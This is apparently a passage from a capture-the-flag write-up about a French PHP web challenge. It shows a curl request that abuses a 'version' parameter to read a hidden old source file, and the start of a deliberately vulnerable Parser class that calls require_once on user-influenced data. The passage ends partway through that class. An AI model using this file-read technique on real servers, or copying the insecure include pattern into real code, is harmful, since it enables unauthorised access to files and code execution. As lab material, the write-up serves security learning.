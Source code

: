 ```html
                $fileContent = @file_get_contents("$version");
            } else {
                $fileContent = 'HACKER DETECTÉ';
            }

            echo "<div class='output'>";
            echo "<h2>Soumis par : $userName</h2>";
            echo "<h3>Votre Texte :</h3>";
            echo "<p> $inputText </p>";
            echo "<h3>Contenu du fichier :</h3>";
            echo "<p> $fileContent </p>";
            echo "</div>";
        }
        ?>
    </div>
</body>
</html>
```

we can see that old code was used in `old/index-old-do-not-use-please.php`, let's move to that file.

## `/old/index-old-do-not-use-please.php`

```bash
curl 'http://57.128.112.118:11149/api/' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'userName=hello&inputText=world&language=&version=old/index-old-do-not-use-please.php&rendering=on'
```

```html
<?php

// Do not use this file anymore.
// First of all it is not working well. You need to reload the page to see the output.
// And it is vulnerable to attacks. It is not safe to use this file.
// Please delete and tell the prod tean to not push this file to the server.
// Thx, A.L

class Parser {
    public $text;
    public $debug;
    public $version;
    public $betterprint;

    function __construct($text, $version, $debug = false, $betterprint = false) {
        $this->debug = $debug;
        $this->text = $text;
        $this->version = $version;
        $this->betterprint = $betterprint;
    }

    function evaluate(){
        if ($this->debug && $this->version === 'v1.0') {
            require_once($this);
        }
        echo $this;
    }

    function __toString() {
        if ($this->betterprint) {
            return $this->text;
        }
```